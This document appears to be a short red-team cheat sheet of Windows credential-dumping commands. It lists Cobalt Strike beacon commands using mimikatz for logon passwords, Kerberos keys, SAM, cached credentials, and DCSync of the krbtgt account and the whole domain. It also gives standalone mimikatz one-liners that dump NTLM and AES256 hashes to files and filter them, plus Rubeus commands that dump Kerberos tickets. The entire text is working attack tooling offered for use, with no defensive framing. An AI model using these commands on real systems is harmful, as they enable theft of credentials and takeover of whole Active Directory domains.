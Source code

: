 ### Cobalt Strike
```powershell
mimikatz !sekurlsa::logonpasswords
mimikatz !sekurlsa::ekeys
mimikatz !lsadump::sam
mimikatz !lsadump::cache

make_token marvel\administrator P@ssw0rd
mimikatz @lsadump::dcsync /user:marvel\krbtgt
mimikatz @lsadump::dcsync /domain:marvel.local /all /csv
rev2self
```

### NTLM RC4 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > res1.txt
type .\res1.txt | sls 'username|password|ntlm'
```

### Kerberos AES256 Hash Dump
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys" exit > res2.txt
type .\res2.txt | sls 'username|password|des_cbc_md4'
```

### Local Users Hash Dump (SAM)
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" exit > res3.txt
type .\res3.txt | sls "user :|hash|aes256"
```

### Domain Cached Credentials
```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::cache" exit
```

### Kerberos Tickets Dump
```powershell
execute-assembly /root/Rubeus.exe triage
execute-assembly /root/Rubeus.exe dump /nowrap > res4.txt
execute-assembly /root/Rubeus.exe dump /nowrap /luid:0x70331 /service:krbtgt
```
